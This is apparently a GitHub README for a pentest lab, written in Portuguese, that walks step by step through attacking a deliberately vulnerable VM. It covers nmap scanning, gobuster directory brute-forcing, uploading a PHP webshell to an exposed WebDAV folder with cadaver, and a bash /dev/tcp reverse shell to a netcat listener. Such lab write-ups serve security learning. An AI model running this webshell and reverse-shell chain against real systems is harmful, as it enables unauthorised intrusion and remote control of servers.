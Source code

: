 # ⚔️ Pentest Lab - WebDAV Exploração com Gobuster e Cadaver

> *Ambiente controlado para estudo de segurança ofensiva.*

## 🧠 Objetivo
Explorar um diretório WebDAV exposto via enumeração com `gobuster`, realizar upload de uma webshell com `cadaver` e executar comandos remotamente via navegador.

## 🖥️ Ambiente
- Atacante: Parrot OS (Linux)
- Alvo: Linux Exploitable 2 - IP `192.168.143.5`
- Rede: `192.168.143.0/24`

## 🔍 1. Descobrindo o alvo com `nmap`
```bash
nmap -sn 192.168.143.0/24
```

## 🚪 2. Enumerando portas
```bash
nmap -sS -p- -A 192.168.143.5
```

## 🗂️ 3. Força bruta de diretórios com `gobuster`
```bash
gobuster dir -u http://192.168.143.5 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -t 30
```

## 📂 4. Explorando o WebDAV com `cadaver`
```bash
cadaver http://192.168.143.5/dav/
put shell.php
```

## 💣 5. Executando comandos com a webshell
No navegador:
```
http://192.168.143.5/dav/shell.php?cmd=id
```

## 🔐 6. Shell reversa com Netcat
No Parrot:
```bash
nc -lvnp 4444
```
No navegador:
```
http://192.168.143.5/dav/shell.php?cmd=bash+-i+>%20/dev/tcp/192.168.143.6/4444+0>%261
```
